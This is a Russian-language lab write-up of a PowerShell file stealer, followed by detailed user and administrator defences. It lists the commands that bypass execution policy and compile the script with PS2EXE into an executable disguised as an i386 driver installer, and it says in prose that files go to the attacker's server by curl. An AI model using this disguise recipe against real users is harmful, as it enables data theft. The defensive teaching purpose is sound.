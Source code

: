 Для маскировки стиллер компилируется в .exe с помощью модуля PS2EXE:

Install-Module ps2exe — установка инструмента;
Import-Module ps2exe — подключение модуля;
Set-ExecutionPolicy Bypass -Scope CurrentUser — снятие ограничений на выполнение;
Invoke-PS2EXE steal.ps1 Driver_i386.exe -iconFile "icon.ico" -title "i386 driver" — компиляция и маскировка под драйвер.
Исполняемый файл получает вид легитимного установщика драйвера, включая иконку и метаданные ресурса PE-файла.

Скрипт перебирает файлы в каталоге пользователя и через curl отправляет каждый из них на сервер злоумышленника.

🔍 Результаты

После запуска вредоносного файла пользователь не замечает активности (только кратковременное появление окна PowerShell).
Все документы с рабочего стола оказываются в каталоге uploads/ на сервере злоумышленника.
Атакующий получает централизованное хранилище похищенных данных.

### 🎥 Видео-демонстрация атаки
[Смотреть видео в Google Drive](https://drive.google.com/file/d/1wLKG23BzwuCy6y5UGEeZ6dRA3Zivy_Xa/view?usp=sharing)

## 🛡 Защита
Защита от стиллер-атак в инфраструктуре организации со стороны пользователя:
-	загружать программы только из проверенных источников; всегда проверять цифровую подпись и издателя перед запуском;
-	работать под учётной записью с ограниченными правами, не использовать локального администратора для повседневных задач;
-	держать антивирус и средства EDR/NGAV в актуальном состоянии; включить проверку загружаемых файлов и расширенную эвристику для PowerShell‑скриптов;
-	при получении файлов по почте или в мессенджерах проверять расширение, двойные расширения (*.pdf.exe) и «драйверы» из неожиданных источников должны вызывать подозрение;
-	активировать встроенный SmartScreen/Smart App Control (Windows 10/11) – он блокирует неподписанные или редкие исполняемые файлы;
-	создавать регулярные резервные копии ценных документов на внешние или сетевые ресурсы, чтобы исключить безвозвратную потерю данных.
Защита от стиллер-атак в инфраструктуре организации со стороны администратор:
-	внедрить Application Whitelisting (AppLocker, управление приложениями Windows Defender) – разрешать запуск только доверенных подписанных приложений; запретить исполнение файлов в пользовательских каталогах (Downloads, Desktop);
-	ограничить или перевести PowerShell в Constrained Language Mode; включить Script Block Logging и подключить его к SIEM для анализа подозрительных скриптов;
-	блокировать или строго контролировать outbound‑трафик на нестандартные HTTP‑/HTTPS‑адреса, запрещать прямые обращения к внутренним адресам злоумышленников, применять DLP/IPS с правилами на запрет отправки архивов из пользовательских каталогов;
-	настроить контроль USB‑носителей и механизмов автозапуска, чтобы исключить импорт исполняемых файлов на рабочие станции.
-	использовать централизованные решения EDR/XDR(расширенное обнаружение и реагирование) для отслеживания запуска PS2EXE‑сборок и «одиночных» процессоров curl.exe с параметром -F внутри пользовательских сессий;
-	ввести политику регулярного обновления программного обеспечения, в том числе PowerShell и системных библиотек, закрывая уязвимости, которые могут быть использованы для обхода Execution Policy;
-	проводить обучение персонала по кибергигиене и регулярно запускать симулированные тесты, рассылка «подозрительных» вложений и контроль реакции сотрудников.
